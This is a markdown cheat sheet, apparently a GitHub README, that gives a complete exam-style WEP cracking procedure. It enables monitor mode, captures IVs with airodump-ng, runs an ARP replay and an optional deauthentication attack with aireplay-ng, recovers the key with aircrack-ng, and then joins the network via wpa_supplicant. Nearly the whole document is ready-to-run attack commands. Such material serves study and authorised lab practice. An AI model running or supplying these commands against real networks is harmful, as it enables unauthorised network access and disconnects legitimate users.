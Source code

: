 
# 🛡️ WEP Attack – SSH-only, exam-style flow

## ⚙️ 0. Initial Setup

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
```

Enables monitor mode on `wlan0mon`.

---

## 🔍 1. Network Scanning

```bash
sudo airodump-ng wlan0mon
```

Identify:
- `BSSID`
- `Channel`
- `Associated Clients` (STATION)

---

## 🎯 2. Targeted Sniffing

```bash
sudo airodump-ng --bssid <BSSID> -c <CH> -w dump wlan0mon
```

Collects IVs for cracking.

---

## 🚀 3. ARP Replay Attack

```bash
sudo aireplay-ng --arpreplay -b <BSSID> -h <YOUR_MAC> wlan0mon
```

Injects ARP requests to increase `#Data`.

📌 Get your interface MAC (before monitor mode) via:

```bash
cat /sys/class/net/wlan0mon/address
```

---

## 💣 4. (Optional) Deauth Attack

```bash
sudo aireplay-ng --deauth 5 -a <BSSID> wlan0mon
```

Forces a client to reconnect and trigger ARP traffic.

---

## 🔓 5. Crack the WEP Key

```bash
aircrack-ng dump-01.cap
```

Expected result:

```
KEY FOUND! [ 12:34:56:78:90 ]
```

---

## 🔌 6. Connect Using wpa_supplicant

### wep.conf

```ini
network={
    ssid="wifi-old"
    key_mgmt=NONE
    wep_key0="1234567890"
    wep_tx_keyidx=0
}
```

### Launch

```bash
sudo airmon-ng stop wlan0mon
sudo wpa_supplicant -i wlan0 -c wep.conf -D nl80211 -B
sudo dhclient wlan0
```

---

## ✅ 7. Verify Connection

```bash
ip a
ping 192.168.1.1
```

---

## 🧠 Extra: IP vs Gateway Explanation

- **192.168.1.48** is your local IP, assigned via DHCP by the router.
- **192.168.1.1** is usually the **gateway/router**, your exit to the rest of the network or internet.
- Pinging `192.168.1.1` checks if you're actually connected to the router.
- Pinging `192.168.1.48` means you're pinging yourself — useful only for internal stack checks.

---

Chapter closed. WEP is toast. Ready for WPA2? 😎
